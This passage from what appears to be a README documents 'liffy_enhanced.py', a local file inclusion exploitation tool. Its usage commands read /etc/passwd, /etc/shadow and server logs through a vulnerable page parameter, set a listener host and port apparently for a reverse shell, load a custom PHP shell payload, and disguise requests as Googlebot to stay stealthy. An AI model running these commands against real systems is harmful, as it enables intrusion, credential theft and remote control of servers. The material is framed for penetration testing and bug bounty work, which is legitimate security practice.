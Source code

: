 Set environment variables for common settings:

```bash
export LIFFY_LHOST="192.168.1.100"
export LIFFY_LPORT="4444"
export LIFFY_USER_AGENT="Mozilla/5.0"
export LIFFY_PROXY="http://127.0.0.1:8080"
```

## 🎯 Common Use Cases

### 1. Penetration Testing

```bash
# Test for LFI vulnerabilities
python3 liffy_enhanced.py --url http://target/file.php?page= --auto --lhost 192.168.1.100 --lport 4444

# Read sensitive files
python3 liffy_enhanced.py --url http://target/file.php?page= --filter --file /etc/passwd
python3 liffy_enhanced.py --url http://target/file.php?page= --filter --file /etc/shadow
python3 liffy_enhanced.py --url http://target/file.php?page= --filter --file /var/log/apache2/access.log
```

### 2. Bug Bounty

```bash
# Automated LFI discovery
python3 liffy_enhanced.py --url http://target/file.php?page= --auto --lhost 192.168.1.100 --lport 4444

# With stealth options
python3 liffy_enhanced.py --url http://target/file.php?page= --auto \
  --lhost 192.168.1.100 --lport 4444 \
  --user-agent "Mozilla/5.0 (compatible; Googlebot/2.1; +http://www.google.com/bot.html)" \
  --proxy http://127.0.0.1:8080
```

### 3. Red Team Exercises

```bash
# Multi-threaded exploitation
python3 liffy_enhanced.py --url http://target/file.php?page= --auto \
  --lhost 192.168.1.100 --lport 4444 \
  --threads 5

# With custom payload
python3 liffy_enhanced.py --url http://target/file.php?page= --data \
  --lhost 192.168.1.100 --lport 4444 \
  --payload custom_shell.php
```

## 🐳 Docker Usage
